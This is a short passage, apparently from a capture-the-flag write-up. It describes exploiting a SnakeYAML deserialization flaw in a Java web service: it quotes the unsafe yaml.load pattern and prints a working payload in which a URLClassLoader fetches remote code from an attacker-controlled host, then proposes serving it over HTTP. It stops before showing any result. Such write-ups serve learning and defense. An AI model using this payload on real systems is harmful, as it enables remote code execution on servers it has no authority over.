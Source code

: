 ## 8080/http
![](src/website.png)
I found an [article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) about exploiting `snakeyaml deserialization`. This might related to our case.

The artice explains exploiting the following case step by step:

```
Yaml yaml = new Yaml();
Object obj = yaml.load(<--user input data-->);
```
>In the above snippet, the vulnerable code is the highlighted(in bold) one.
<br><br>So during a secure code review of java application if we encounter yaml.load function being used with user input directly being passed to the function, then the application can be vulnerable to deserilization vulnerability which can lead to remote code execution.

Let's try if it works then!

_The payload which can be found from the article:_
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://YOUR_IP_HERE/"]
  ]]
]
```
Open an http server and give the above payload to parser, want to see result?
